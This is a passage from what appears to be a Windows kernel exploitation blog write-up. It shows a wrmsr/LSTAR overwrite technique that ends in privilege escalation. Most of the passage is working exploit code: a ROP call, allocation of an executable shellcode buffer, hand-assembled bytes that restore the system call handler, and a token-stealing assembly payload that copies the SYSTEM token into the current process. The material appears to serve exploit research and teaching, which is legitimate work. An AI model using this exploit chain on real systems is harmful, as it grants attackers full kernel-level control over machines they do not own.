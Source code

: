 This is what the stack will look like right before calling the syscall instruction:  
![Stack](https://idafchev.github.io/blog/assets/images/wrmsr/stack.png){: .align-center}  

And the C code for this part of the exploit:  
```c
WriteMSR(MsrIndex, kernelAddress.gadget_swapgs_iretq);
__rop(shellcode, kernelAddress.gadget_mov_cr4_rax_add_rsp_20h_pop_rbx_ret);
```

# <a name="12_shellcode"></a> 12. Constructing the shellcode  
For the shellcode, I allocated a 500-byte buffer and initialized it with NOPs.  
```c
unsigned char* shellcode = NULL;
shellcode = (unsigned char*)VirtualAlloc(NULL, 500, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
RtlFillMemory(shellcode, 500, 0x90);
```

As it was mentioned earlier, the first thing the shellcode should do is to restore the original system call handler - *KiSystemCall64Shadow*{: style="color: LightGreen"}. Its address can be dynamically computed by getting its offset in ntoskrnl and then adding it to the kernel base address.  
To restore it, the *wrmsr*{: style="color: LightGreen"} instruction can be used again, like so:  

```asm
mov    ecx, 0xc0000082
mov    edx, high_part_pKiSystemCall64Shadow
mov    eax, low_part_pKiSystemCall64Shadow
wrmsr
```

I compiled the above assembly and then copied the produced bytes into the shellcode buffer:  
```c
// restore LSTAR MSR to point to KiSystemCall64Shadow
memcpy((unsigned char*)(shellcode + 0), "\xb9\x82\x00\x00\xc0", 5);            // mov    ecx, 0xc0000082
memcpy((unsigned char*)(shellcode + 5), "\xba", 1);                            // mov    edx, high_part_pKiSystemCall64Shadow
temp = (DWORD)(kernelAddress.KiSystemCall64Shadow >> 32);
memcpy((unsigned char*)(shellcode + 6), &temp, 4);
memcpy((unsigned char*)(shellcode + 10), "\xb8", 1);                           // mov    eax, low_part_pKiSystemCall64Shadow
temp = (DWORD)(kernelAddress.KiSystemCall64Shadow & 0xffffffff);
memcpy((unsigned char*)(shellcode + 11), &temp, 4);
memcpy((unsigned char*)(shellcode + 15), "\x0f\x30", 2);                       // wrmsr
```

Next, the actual token-stealing payload can be inserted. I used the shellcode from this blog post: [Windows Kernel Exploitation – HEVD x64 Stack Overflow](https://vulndev.io/2022/07/02/windows-kernel-exploitation-hevd-x64-stackoverflow/).

```asm
mov    rax,QWORD PTR gs:0x188    ; KPCRB.CurrentThread (_KTHREAD)
mov    rax,QWORD PTR [rax+0xb8]  ; APCState.Process (current _EPROCESS)
mov    r8,rax                    ; Store current _EPROCESS ptr in RBX

loop:
mov    r8,QWORD PTR [r8+0x448]   ; ActiveProcessLinks
sub    r8,0x448                  ; Go back to start of _EPROCESS
mov    r9,QWORD PTR [r8+0x440]   ; UniqueProcessId (PID)
cmp    r9,0x4                    ; SYSTEM PID? 
jne    0x13                      ; Loop until PID == 4

mov    rcx,QWORD PTR [r8+0x4b8]  ; Get SYSTEM token
and    cl,0xf0                   ; Clear low 4 bits of _EX_FAST_REF structure
mov    QWORD PTR [rax+0x4b8],rcx ; Copy SYSTEM token to current process
```